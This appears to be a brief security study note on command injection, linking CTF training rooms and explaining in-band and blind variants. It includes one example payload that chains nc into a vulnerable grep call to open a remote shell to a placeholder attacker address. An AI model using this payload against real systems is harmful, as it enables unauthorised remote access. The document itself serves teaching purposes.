# Command injection

[![oscommandinjection](../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)
[![command_injection](../../../_badges/poat/command_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[![picklerick](../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)

<div class="row row-cols-md-2"><div>

Some websites may use the underlying system to run commands. For instance, a website on Linux might use `grep`, `sed`, or other utilities to do things faster/easily. A **command injection** occur when a developer use the user input in commands without proper sanitization/measures.

* Vulnerable call: `grep $injectable reports/` 
* Payload: `-V; nc hacker_ip port #`
* Result: `grep -V; nc hacker_ip port #reports/` which should open a remote shell on the target.
</div><div>

There are two kind of command injections

* **Regular/in-band**: the user receive the result of the command
* **Blind/out-band**: the hacker must use another way to know the result.
  * Using redirections/flags, create a URL-accessible output file
  * Using commands such as `sleep`/... to do a time-based attack

> **Command-injection** is a vulnerability leading to **Remote Command Execution** (RCE) which also means Remote Code Execution.
</div></div>